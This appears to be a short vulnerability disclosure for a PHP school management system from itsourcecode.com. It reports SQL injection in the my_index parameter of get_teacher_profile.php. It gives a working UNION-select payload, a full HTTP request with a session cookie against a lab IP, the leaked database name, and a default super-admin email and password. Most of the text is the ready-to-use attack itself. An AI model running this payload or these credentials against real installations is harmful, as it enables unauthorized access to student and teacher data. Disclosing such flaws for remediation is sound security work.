 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_teacher_profile.php?my_index=

Vulnerability location: /school/model/get_teacher_profile.php?my_index=,my_index

[+] Payload: /school/model/get_teacher_profile.php?my_index=-1'%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ // Leak place ---> my_index

Current database name: std_db,length is 6


```sql
GET /school/model/get_teacher_profile.php?my_index=-1'%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171971225-57532721-f58a-4223-aef5-6eb41a4ffebc.png)
